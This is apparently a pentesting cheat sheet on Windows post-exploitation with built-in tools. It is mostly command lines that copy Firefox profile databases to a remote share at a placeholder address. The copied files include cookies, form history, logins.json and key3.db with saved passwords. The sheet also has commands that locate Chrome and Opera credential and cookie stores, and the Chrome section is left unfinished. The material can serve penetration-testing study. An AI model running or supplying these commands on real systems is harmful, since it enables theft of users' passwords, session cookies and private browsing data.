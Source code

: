 # Living off the Land

## 01 - Command Prompt

### 1.1 - Firefox Profiles

Copy all SQLite files.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles*.sqlite \\<IP>\<share_name>\

C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.db \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.json \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.dat \\<IP>\<share_name>\
```

The database files contains bookmarks, downloads and browsing history, site-specific preferences (permissions), autocomplete history, and cookies.

```
C:\> copy %appdata%\Mozilla\Firefox\Profiles\places.sqlite \\<IP>\<share_name>\

copy %appdata%\Mozilla\Firefox\Profiles\permissions.sqlite \\<IP>\<share_name>\

copy %appdata%\Mozilla\Firefox\Profiles\formhistory.sqlite \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\cookies.sqlite \\<IP>\<share_name>\
```

Contains saved passwords.

```
C:\> copy %appdata%\Mozilla\Firefox\Profiles\key3.db \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\logins.json \\<IP>\<share_name>\
```

Security certificate settings.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\cert8.db \\<IP>\<share_name>\
```

Search engines.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\search.json.mozlz4 \\<IP>\<share_name>\
```

Personal dictionary.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\persdict.dat \\<IP>\<share_name>\
```

### 1.2 - Google Chrome

TODO: Fill this information

Contains encrypted SQLite files that stores the credentials.

```
C:\> dir %appdata%\Local Settings\Application Data\Google\Chrome\User Data\Default\Web Data\*.sqlite
```

### 1.3 - Opera

```
C:\> dir %appdata%\Application Data\Opera\Opera\profile\wand.dat
```

## 02 - Powershell

```
PS C:\> $env:USERPROFILE + '\AppData\Local\Google\Chrome\User Data\Default\Cookies' | Get-Item
```

---
## References

- [Retrieving Data From Thunderbird and Firefox](https://thevivi.net/blog/pentesting/2020-09-06-retrieving-data-from-thunderbird-and-firefox/)

- [FareedFauzi Resources Windows Post Exploitation](https://fareedfauzi.gitbook.io/oscp-notes/windows-post-exploitation/resources-windows-post-exploitation)

- [Mango PDF Zone Stealing Chrome Cookies Without a Password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)